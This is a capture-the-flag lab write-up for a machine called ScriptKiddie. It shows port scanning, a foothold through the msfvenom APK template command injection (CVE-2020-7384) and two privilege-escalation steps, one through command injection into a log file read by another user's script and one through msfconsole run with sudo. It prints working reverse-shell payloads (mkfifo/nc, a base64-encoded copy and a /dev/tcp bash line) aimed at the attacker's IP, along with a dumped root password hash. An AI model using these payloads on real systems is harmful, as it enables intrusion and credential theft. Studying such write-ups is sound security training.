


# ScriptKiddie

## Machine Info


## Recon

### port

- nmap

```console
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.0 (96%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), Linux 5.0 - 5.5 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 5000 http

**version**: Werkzeug 0.16.1, Python 3.8.5

what is this site's **functions**?
1. `nmap` => command injection
2. `msfvenom`: windows, linux, android => create a payload => similar to file upload
3. `searchsploit` => command injection

## Vulnerability Analysis

- 22 ssh is the last choice.
- Werkzeug web page vuln [x]

- nmap => command injection [x]

- searchsploit => command injection [x]

- **msfvenom** => likely file upload (able to create a file on the remote and its path is available)



## Foothold

### CVE-2020-7384 msfvenom APK template command injection

**References**:

- [NVD - CVE-2020-7384 (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2020-7384)
- [Metasploit Framework 6.0.11 - msfvenom APK template command injection - Multiple local Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/49491)

> Rapid7's Metasploit msfvenom framework handles APK files in a way that allows for a malicious user to craft and publish a file that would execute arbitrary commands on a victim's machine.

**POC**:



```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:18:46.274718 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 1, seq 1, length 64
13:18:46.274740 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 1, seq 1, length 64
13:18:47.276599 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 1, seq 2, length 64
13:18:47.276614 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 1, seq 2, length 64
13:18:48.295727 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 1, seq 3, length 64
13:18:48.295743 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 1, seq 3, length 64
```

**Exploit**:

1. compile malicious apk template with reverse shell payload
   - nc [x]
   - bash [x]
   - mkfifo [yes]: `payload = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 1234 >/tmp/f"`

```console
└─╼$ python exp.py
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 1234 >/tmp/f
-dname: CN='|echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC4xNCAxMjM0ID4vdG1wL2Y= | base64 -d | sh #

  adding: empty (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 90 days
        for: CN="'|echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC4xNCAxMjM0ID4vdG1wL2Y= | base64 -d | sh #"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmp7v5qr666/evil.apk
Do: msfvenom -x /tmp/tmp7v5qr666/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 53722
bash: cannot set terminal process group (860): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~/html$ uname -a
Linux scriptkiddie 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
kid@scriptkiddie:~/html$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:a7:fa brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.226/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:a7fa/64 scope global dynamic mngtmpaddr
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:feb9:a7fa/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### kid -> pwn

- enum pwn's home dir -> executable script -> log file is writable
  - `if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi`: keep $log empty
  - `cat $log | cut -d' ' -f3- |`: cut $log and keep the third and its later pieces

```console
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

kid@scriptkiddie:/home/pwn$ ls -l /home/kid/logs/hackers
-rw-rw-r-- 1 kid pwn 0 Feb  3  2021 /home/kid/logs/hackers
```

- command injection exploit:
  - POC: `echo '1 2 3 127.0.0.1;ping 10.10.14.14 -c 3;#' > /home/kid/logs/hackers`
  - EXP: `echo '1 2 3 127.0.0.1;bash -c "bash -i >& /dev/tcp/10.10.14.14/1234 0>&1";#' > /home/kid/logs/hackers`

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 54074
bash: cannot set terminal process group (871): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
pwn@scriptkiddie:~$ uname -a
uname -a
Linux scriptkiddie 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### pwn -> root

- enum sudo

```console
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
...
       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]
...
msf6 >irb
stty: 'standard input': Inappropriate ioctl for device
[*] Starting IRB shell...
[*] You are in the "framework" object
>> system("/usr/bin/bash")
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux scriptkiddie 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
cat /etc/shadow | head -n 3
root:$6$RO4wVQ/hyXhjln4S$UQl5o6XSa2USqAM.RT9YwujFhZWriZqEz5We.opH1FLTbDtLfruET9jlKcEEqfxnCb1UxwhcfWJ/2gPJE77Bl.:18632:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
```

## Exploit Chain

port scan -> Werkzeug site with 3 functions -> nmap[x], searchsploit[x], msfvenom with template [y] -> cve: msfvenom APK template command injection -> kid shell -> pwn's script using nmap -> command injection -> pwn shell -> sudo enum: msfconsole -> root shell
